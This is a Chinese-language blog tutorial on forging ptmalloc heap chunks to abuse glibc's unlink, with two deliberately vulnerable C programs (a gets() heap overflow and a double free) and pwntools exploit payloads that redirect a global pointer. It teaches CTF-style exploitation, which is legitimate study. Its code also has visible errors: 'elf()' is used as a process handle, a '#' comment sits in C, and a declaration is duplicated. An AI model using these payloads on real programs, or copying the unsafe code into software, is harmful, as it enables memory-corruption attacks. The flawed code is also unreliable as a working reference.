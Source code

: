 ```yaml
---
layout:     post
title:      "ptmalloc堆块伪造"
subtitle:   "基于unlink的check机制"
date:       2018-07-11 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
    - Linux
    - 笔记
 
---
```


## 0x00 原理
1.ptmalloc的相邻空块合并原则。

2.堆chunk本身的结构机制。

## 0x01 详解
堆chunk判断一个块是否为空仅仅依赖于相邻后块的**prev_size**和**最低flag位**。
如果在堆上构造合理的堆块结构，那么堆管理机制就会误以为我们的伪造的堆块是真正的空堆块。
当释放掉相邻的后块时（这个块是真的），就会触发空块合并。也就达成了堆块伪造的目的。

## 0x02 要求

有check的堆溢出利用。

* 有两个相邻的堆块
* 第一个堆块可溢出第二个
* 释放第二个堆，即可触发。

或者

* 有一个已分配的堆
* 有一个指向堆上的可控指针
* free参数可控

这种情况下，是在分配的一大块堆中强行构造出两块chunk。然后利用那个指向堆上的可控指针来实现free触发漏洞。
这其实是一种double free的利用方式，因为如果你分配了两块堆，然后把这两块堆都释放之后，这些内存会合并到top chunk中。当再次分配堆的时候，还是使用这些内存地址。

那么如果我们进行以下操作：



	1.分配两个堆
	2.释放掉这两个堆
	3.分配一个可以包含住前面两个堆的大堆块
	4.写入这个大堆块构造两个伪chunk
	5.通过第2步中释放两个堆

这样对于初始的两个堆来说，就像是double free了，当然本质还是堆块伪造。

## 0x03 效果

如果成功的使用了伪造堆，那么达到的效果是什么呢？首先，是不可能像unlink利用一样任意地址写了。
因为对于目前的ptmalloc来说，有如下check：
current->fd->bd!=current;
current->bd->fd!=current;
为了过掉这个检验我们会用一个指向堆块的全局指针的地址的一个偏移作为伪chunk的fd。
fd=ptr-12;
bd=ptr-8;
然后在断链的过程中，就会把**ptr**的值改成**&ptr-12**,感觉很鸡肋是吧？
毕竟费这么大力气只是把一个全局变量的值给改成了他的地址－0xC，但是这个东西确实是这么去利用的。
在CTF中会跟其他的漏洞或功能结合去使用。


## 0x04 演示

为了具体的说明问题，这里写了两个demo演示效果。

#### Demo1

```c
void *global[80];

void *global[80];

int main(void)
{
    void *p1,*p2;
    p1=malloc(200);
    p2=malloc(200);
    global[40]=p1;
    printf("before exploit:%x\n",global[40]);
    puts("read");//for debug
    gets(p1);//overflow
    free(p2);
    printf("after exploit:%x\n",global[40]);
    return 0;
}
```

这是对应于第一种堆溢出覆盖下一块堆的情况的，如果使用下面的exp就会发现global中malloc返回的地址已经变成了 global[40]本身的地址－0xC

```python
from pwn import*
io=elf('./demo1')
io.recvuntil('read')
sc=p32(0x0)+p32(0xc9)+p32(0x804A100-0xc)+p32(0x0804A100-0x8)+'a'*(200-16)+p32(0xc8)+p32(0xd0)
io.sendline(sc)
io.read()
```

#### Demo2

```c
int *global[40];
int main(void)
{
  void *p1,*p2,*p3;
  p1=malloc(200);
  p2=malloc(200);
  global[20]=p1;
  free(p1);
  free(p2);
  p3=malloc(500);
  puts("get"); #for debug
  gets(p3);
  free(p2);
  return;
}
```

这个Demo展示的是double free。可以看到对于p2指针来说确实是释放了两次。

```python
from pwn import*
io=elf('./demo2')
io.recvuntil('get')
sc=p32(0x0)+p32(201)+p32(0x804a0b0-0xC)+p32(0x804a0b0-0x8)+'a'*(200-16)+p32(200)+p32(0x128)
io.sendline(sc)
io.read()
```




